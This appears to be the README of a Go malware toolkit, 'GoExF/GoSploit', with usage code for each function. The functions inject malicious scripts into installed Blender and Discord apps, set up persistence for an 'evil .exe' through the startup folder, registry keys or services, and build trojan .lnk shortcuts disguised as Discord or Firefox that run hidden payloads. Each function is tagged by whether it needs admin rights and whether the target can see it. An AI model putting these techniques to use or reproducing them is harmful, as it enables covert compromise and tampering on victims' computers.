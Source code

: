 # Instalation 
`go get github.com/F-r-o-i-d/GoExF/

# Documentation
🔴 -> need Admin
🟢 -> Admin not required

⚫ -> Visible to target
⚪ -> Invisible to target

## CodeInjection
**Execute code on a target machine.**

`github.com/F-r-o-i-d/GoExF/GoExF/GoSploit/InfectApp`

#### - `InfectApp.InfectBlender(` *payload* ` )` [🔴⚪]

Injects a malicious script (batch) in blender code
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/InfectApp"

func main(){
	InfectApp.InfectBlender("start calc.exe")
}
```
___
#### - `InfectApp.InfectDiscord(` *payload* ` )` [🟢⚪]

Injects a malicious script (nodejs) in discord code

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/InfectApp"

func main(){
	InfectApp.InfectDiscord("while(true){}") // stuck discord on loading
}

```
___
## Persistance
**Make evil program stuck on the target machine.**

`github.com/GoExF/GoExF/GoSploit`

#### - `GoSploit.StartUpWdirectories()`[🟢⚫]

copy evil .exe -> shell:startup

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWdirectories() 
}
```
___

#### - `GoSploit.StartUpWdregedit()`[🔴⚫]

create key regedit to launch exe at startup

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWdregedit() 
}
```
___
#### - `GoSploit.StartUpWservice(ServiceName)`[🔴⚪]

create a service to launch exe at startup
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWservice() 
}
```
___
## Trojan

**Make evil file hiden to look like something good.**

`import EvilFile "github.com/GoExF/GoExF/GoSploit/EvilFile"`

#### - EvilFile.Lnk [🟢⚫]

```
Discord := EvilFile.EvilLnk{
	Name:        "Discord.lnk",
	Payload:     "evilCode",
	Path:        "$home\\Desktop\\",
	Interface:   "cmd.exe / powershell.exe",
	IconPath:    "Discord.exe path / Discord.ico path",
	Description: "Discord ShortCut",
}
Discord.Build()
```
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/EvilFile"

func main(){
	Firefox := EvilFile.EvilLnk{
		Name:        "Firefox.lnk",
		Payload:     "Restart-Computer -Froce",
		Path:        "$home\\Desktop\\",
		Interface:   "powershell.exe",
		IconPath:    "C:\\Program Files\\Mozilla Firefox\\firefox.exe",
		Description: "firefox",
	}
	Firefox.Build()
}
```
